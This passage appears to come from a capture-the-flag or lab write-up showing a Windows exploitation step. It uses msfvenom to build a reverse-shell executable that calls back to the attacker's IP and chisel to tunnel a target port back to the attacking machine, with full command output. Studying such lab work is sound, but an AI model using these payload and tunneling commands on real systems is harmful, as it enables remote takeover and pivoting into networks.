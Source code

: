 The exploit requires the attacker to generate their own executable payload and serve it over HTTP. The exploit stages the executable and executes it.

Generate the payload. Since the program is sitting in `C:\Program Files (x86)\`, be sure to generate a 32-bit payload.

```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.97 LPORT=443 EXITFUNC=thread -f exe -o tgihf.exe                                             130 ⨯
/usr/lib/ruby/2.7.0/fileutils.rb:105: warning: already initialized constant FileUtils::VERSION
/var/lib/gems/2.7.0/gems/fileutils-1.6.0/lib/fileutils.rb:105: warning: previous definition of VERSION was here
/usr/lib/ruby/2.7.0/fileutils.rb:1284: warning: already initialized constant FileUtils::Entry_::S_IF_DOOR
/var/lib/gems/2.7.0/gems/fileutils-1.6.0/lib/fileutils.rb:1269: warning: previous definition of S_IF_DOOR was here
/usr/lib/ruby/2.7.0/fileutils.rb:1569: warning: already initialized constant FileUtils::Entry_::DIRECTORY_TERM
/var/lib/gems/2.7.0/gems/fileutils-1.6.0/lib/fileutils.rb:1557: warning: previous definition of DIRECTORY_TERM was here
/usr/lib/ruby/2.7.0/fileutils.rb:1627: warning: already initialized constant FileUtils::OPT_TABLE
/var/lib/gems/2.7.0/gems/fileutils-1.6.0/lib/fileutils.rb:1615: warning: previous definition of OPT_TABLE was here
/usr/lib/ruby/2.7.0/fileutils.rb:1686: warning: already initialized constant FileUtils::LOW_METHODS
/var/lib/gems/2.7.0/gems/fileutils-1.6.0/lib/fileutils.rb:1674: warning: previous definition of LOW_METHODS was here
/usr/lib/ruby/2.7.0/fileutils.rb:1693: warning: already initialized constant FileUtils::METHODS
/var/lib/gems/2.7.0/gems/fileutils-1.6.0/lib/fileutils.rb:1681: warning: previous definition of METHODS was here
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: tgihf.exe
```

Transfer the Windows 64-bit [chisel](https://github.com/jpillora/chisel) binary to the target and initiate a reverse port forward tunnel from the attacking machine's port 9512 to the target's `localhost`:9512.

```bash
$ ./chisel server --reverse --port 8001
2022/03/04 18:13:20 server: Reverse tunnelling enabled
2022/03/04 18:13:20 server: Fingerprint NUEIuQXqeAyEE1QOs+JPRejh8o1ZdPXeppbKlVAv7c0=
2022/03/04 18:13:20 server: Listening on http://0.0.0.0:8001
```

```batch
c:\nginx\www>.\chisel.exe client 10.10.14.97:8001 R:9512:localhost:9512
.\chisel.exe client 10.10.14.97:8001 R:9512:localhost:9512
2022/03/04 15:15:41 client: Connecting to ws://10.10.14.97:8001
2022/03/04 15:15:41 client: Connected (Latency 28.3237ms)
```
